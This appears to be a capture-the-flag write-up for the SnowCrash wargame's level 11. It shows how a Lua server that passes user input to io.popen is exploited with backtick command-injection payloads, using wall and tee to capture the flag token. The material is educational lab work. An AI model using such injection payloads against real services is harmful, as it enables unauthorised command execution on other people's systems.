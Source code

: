 # Level11

We have a `lua` program. It's a server in port `5151` in which a password is waiting.  
So we can launch a client with `nc`.  

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: test
Erf nope..
```

`prog = io.popen("echo "..pass.." | sha1sum", "r")` In lua this line allow user to execute a `command`.  
An another specificity is the `..`. This token is used to concatenate 2 strings.  
So if our `pass` variable is set as `test` the command send in io.popen will be `echo test | sha1sum`.  

So we can use this operation to create a command with `getflag`.  

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag`                                                                               
Erf nope..
```

I think it's working but in the code no message with the output is send to the client. So we can try to use `wall` to send the output at all clients.  

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` | wall
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 2:00 ...                                                
                                                                               
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s                                                                                       
Erf nope..
```

We can also use `tee` command to get the flag. This command read the stdout and write the content int stdout AND in file(s) given.  

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` | tee /tmp/token
Erf nope..
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

level11@SnowCrash:~$ su level12
Password: 
level12@SnowCrash:~$ id
uid=2012(level12) gid=2012(level12) groups=2012(level12),100(users)
```
